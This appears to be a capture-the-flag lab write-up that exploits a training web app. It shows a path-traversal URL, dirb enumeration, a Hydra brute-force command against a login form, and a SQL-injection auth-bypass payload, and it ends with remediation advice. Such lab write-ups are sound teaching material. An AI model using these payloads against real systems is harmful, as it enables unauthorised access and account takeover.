









# CTF Report: Web & HTTP Protocol I

**Classification:** Host & Network Penetration Testing / Web & HTTP Protocol<br>
**Target:** target.ine.local (192.251.113.3)<br>
**Objective:** Identify web vulnerabilities and capture four flags.

## 1. Executive Summary

The target web app has four issues: a **path-traversal/LFI** file viewer, an unlinked
directory found by **enumeration**, a **weak login** brute-forced with Hydra, and a
**SQL-injection auth bypass** into the admin account. Each yields a flag.

## 2. Recon

```bash
ping -c 4 target.ine.local
```







## 3. Flag 1 — Path Traversal / LFI

The file viewer accepts a traversal path to read arbitrary files.

```
http://192.251.113.3/view_file?file=../../../../../flag.txt
```

```
Flag 1: a96fd4ed0fc942e6a54d561b045f2ff0
```



## 4. Flag 2 — Directory Enumeration (Dirb)

```bash
dirb http://192.251.113.3/ /usr/share/wordlists/dirb/common.txt
# /secured
```



```
http://192.251.113.3/secured/flag.txt
Flag 2: bdca862f498742c0959dd81d649226f3
```



## 5. Flag 3 — Weak Login (Hydra)

```bash
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt \
      -P Desktop/wordlists/100-common-passwords.txt \
      target.ine.local http-post-form "/login:username=^USER^&password=^PASS^:Invalid"
# guest:butterfly1
```



Logging in as `guest` shows the profile's secret string.

```
Flag 3: 625641df706c42428cc6b57cd7ffc163
```



## 6. Flag 4 — SQL Injection Auth Bypass

The login mishandles unexpected input; a SQLi payload logs in as `admin`.

```
username: admin' -- -
password: anything
```



The admin profile holds the final flag.

```
Flag 4: fddd4ea22b1c4b31b2748e7dca0b9354
```


## 7. Remediation Recommendations

1. **Path traversal/LFI:** validate and canonicalise file parameters; use allow-lists, never
   pass user input to file reads.
2. **Directory enumeration:** remove unlinked sensitive files; don't rely on obscurity.
3. **Weak auth:** enforce strong passwords, lockout and rate-limiting on the login form.
4. **SQL injection:** use parameterised queries/prepared statements and least-privilege DB
   accounts.
